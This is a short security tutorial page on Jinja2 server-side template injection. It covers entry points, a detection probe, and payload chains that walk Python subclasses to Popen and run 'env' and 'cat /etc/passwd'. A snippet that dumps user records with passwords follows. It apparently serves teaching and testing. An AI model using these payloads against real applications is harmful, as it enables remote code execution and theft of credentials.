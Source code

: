 ```yaml
---
description: Jinja2 Server Side Template Injection
---
```


# Jinja2 SSTI

{% embed url="https://www.youtube.com/watch?v=Ffeco5KB73I" %}

### <mark style="color:yellow;">What are templates?</mark>

A **template** is a file or string that contains both static text and special placeholders that get replaced with real data when generating the final content.

#### We can have a template like:

```python
Hello {{ name }}!
```

With `name = "Alice"`, it becomes:

```python
Hello Alice!
```

{% hint style="warning" %}
Jinja2 is a popular template engine used in Python web applications. It offers great flexibility and powerful features for rendering templates. However, if user input is not properly validated and escaped, Jinja2 can be vulnerable to Server-Side Template Injection (SSTI) attacks.
{% endhint %}

### <mark style="color:yellow;">Looking for injection points</mark>

| Entry point       | Description                                                                           |
| ----------------- | ------------------------------------------------------------------------------------- |
| User Input Fields | Inputs like textboxes, search bars, or comment sections where users can enter data.   |
| URL parameters    | Values passed in the URL query string or as part of the path that can be manipulated. |
| HTTP-Header       | Headers such as `User-Agent` or `Referer` that may contain user-supplied data.        |
| Cookies           | Data stored in browser cookies that users can tamper with.                            |
| Form Data         | Data submitted through web forms that might be used in templates.                     |
| File Uploads      | Uploaded files that may be processed by the template engine, posing a security risk.  |
| Database Queries  | Dynamic content retrieved from the database that could include unsafe user input.     |

For the Jinja templates check for vulnerablity with `{{7*'7'}}`  , if the output show 49 its vulnerable.

### <mark style="color:yellow;">SSTI Exploration</mark>

Server Side Template Injections (SSTI) vulnerabilities can happen when an attacker can modify the template code before it being rendered by the template engine. When running in sandboxed enviroments and keywords are blocked we can still check for:

* `{{ dict }}`: Class object of the dictionary.
* `{{ request }}`: Object containing request information.
* `{{ config }}`:&#x20;

In python variables are objects and those objects internal functions, they start with \_\_ and end with \_\_. If you would look at the `int` functions with `dir()` like `dir(int(0))` you will see:

* `__add__` — used when you do `1 + 2`
* `__str__` — used when you do `str(5)` (for printing)
* `__repr__` — used for representing the object in code (`repr(5)`)

#### Using classes like Popen to execute code

In case of using editor print like&#x20;

```python
print(render_template_string("{{ [].__class__.__base__.__subclasses__()[317]('env', shell=True, stdout=-1).communicate()[0].strip() }}"))
```

```python
# Check base class
{{ [].__class__.__base__ }}

# List sublasses
{{ [].__class__.__base__.__subclasses__() }}

# Return class of index
{{ [].__class__.__base__.__subclasses__()[422] }}

# If you found index of subclass.Popen, call it and get RCE.
{{ [].__class__.__base__.__subclasses__()[422](‘cat /etc/passwd’,shell=True,stdout=-1).communicate()[0].strip() }}
```

### <mark style="color:yellow;">Acces database</mark>

Not SSTI specific but with python get users and passwords

```python
for user in User.query.all():
    print(user.__dict__)
```
